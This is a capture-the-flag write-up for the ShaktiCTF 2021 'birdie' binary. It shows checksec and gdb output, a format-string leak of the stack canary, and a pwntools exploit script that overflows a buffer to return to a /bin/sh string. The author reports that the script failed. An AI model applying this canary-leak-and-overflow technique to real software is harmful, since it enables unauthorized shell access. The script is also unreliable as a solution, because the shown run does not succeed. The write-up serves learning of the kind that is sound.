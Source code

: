 We are provided a binary called `birdie` and a strong hint that there is a stack canary. Indeed, we can verify the presence of a canary with `checksec`:

```console
root@osboxes:~/Documents/shaktiCTF2021# checksec birdie
[*] '/root/Documents/shaktiCTF2021/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary in ghidra, a couple things are clear. It is apparent that there is a format string vulnerability (since our input from the first prompt is fed to `printf`) and that there is a `/bin/sh` available within the binary:

<img src="function.png" width=450>


```console
root@osboxes:~/Documents/shaktiCTF2021# ./birdie
Enter your name
%10$p
0xa7024303125
Enter the payload
asdf
```

<img src="binsh.png" width=300>

```console
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
birdie : 0x400936 --> 0x68732f6e69622f ('/bin/sh')
birdie : 0x600936 --> 0x68732f6e69622f ('/bin/sh')
  libc : 0x7ffff7f66156 --> 0x68732f6e69622f ('/bin/sh')
```


Here is my attempt at an exploit script. It ended up not working as expected, which I anticipate was due to the presence of null buytes. I tried to url-encode the bytes but this ultimately lead to stack smashing instead of the flag.

```py
from pwn import *

BINARY = './birdie'

# shell address can be found in GDB via 'find "/bin/sh"'
shell = p64(0x400936)

sh = process(BINARY)
print sh.recvline()

# birdie value can be leaked via format string injection on printf
sh.sendline('%15$p')
canary = sh.recvline().decode('utf-8')
canary = int(canary, 16)
log.info('Found canary: {}'.format(canary))
canary = p64(canary)

sh.sendline('A'*72 + canary + shell)

sh.interactive()
```

Here is the output from running the script:

```console
root@osboxes:~/Documents/shaktiCTF2021# python birdie.py 
[+] Starting local process './birdie': pid 2350
Enter your name

[*] Found canary: 16649657875378990336
Enter the payload

[*] Switching to interactive mode
[*] Process './birdie' stopped with exit code 0 (pid 2350)
[*] Got EOF while reading in interactive
$  
```

